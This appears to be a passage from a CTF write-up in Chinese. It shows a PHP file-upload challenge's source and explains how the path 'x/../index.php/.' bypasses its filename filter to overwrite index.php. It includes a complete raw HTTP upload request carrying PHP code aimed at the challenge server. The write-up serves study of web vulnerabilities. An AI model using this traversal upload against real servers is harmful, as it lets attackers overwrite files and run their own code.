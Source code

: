```
      break;
    }

    $name = $dir . $_GET["name"];
    if (preg_match("/[^a-zA-Z0-9.\/]/", $name) ||
      stristr(pathinfo($name)["extension"], "h")) {
      break;
    }
    move_uploaded_file($_FILES['file']['tmp_name'], $name);
    $size = 0;
    foreach (scandir($dir) as $file) {
      if (in_array($file, [".", ".."])) {
        continue;
      }
      $size += filesize($dir . $file);
    }
    if ($size > 100000) {
      clear($dir);
    }
    break;
  case 'shell':
    ini_set("open_basedir", "/var/www/html/$dir:/var/www/html/flag");
    include $dir . "index.php";
    break;
  default:
    highlight_file(__FILE__);
    break;
}
```

很简单的代码，差不多就是，你可以上传任意文件，但没有权限访问上传的文件。

所以思路很清楚，需要想办法覆盖index.php

很简单，用`x/../index.php/.`就可以绕过

构造请求

```
POST /?action=upload&name=x/../index.php/. HTTP/1.1
Host: 202.120.7.217:9527
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: multipart/form-data; boundary=---------------------------18588164571683579890682678358
Content-Length: 420
Cookie: PHPSESSID=mu9mc6r8n7ccenpb94rrd1ibk5
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------18588164571683579890682678358
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: text/php

	

<?php echo 2333;?>

-----------------------------18588164571683579890682678358
Content-Disposition: form-data; name="submit"

Submit
-----------------------------18588164571683579890682678358--

```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/wfir4flmnno2knv9b5h21ibg/image.png